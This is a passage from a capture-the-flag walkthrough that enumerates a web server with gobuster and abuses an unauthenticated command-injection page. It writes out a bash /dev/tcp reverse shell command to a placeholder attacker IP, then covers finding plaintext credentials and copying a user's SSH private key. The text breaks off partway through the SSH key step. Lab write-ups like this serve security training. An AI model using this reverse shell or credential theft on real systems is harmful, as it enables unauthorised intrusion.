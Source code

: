 
## Description
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  "uname -a" command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```

remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as **www-data** !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , key_rey_key seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the **validate.php** code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into **rsa_key** file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you cant run the file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170540-f51acd80-ba95-11eb-9b92-76ca68b37511.png"/>
</p>



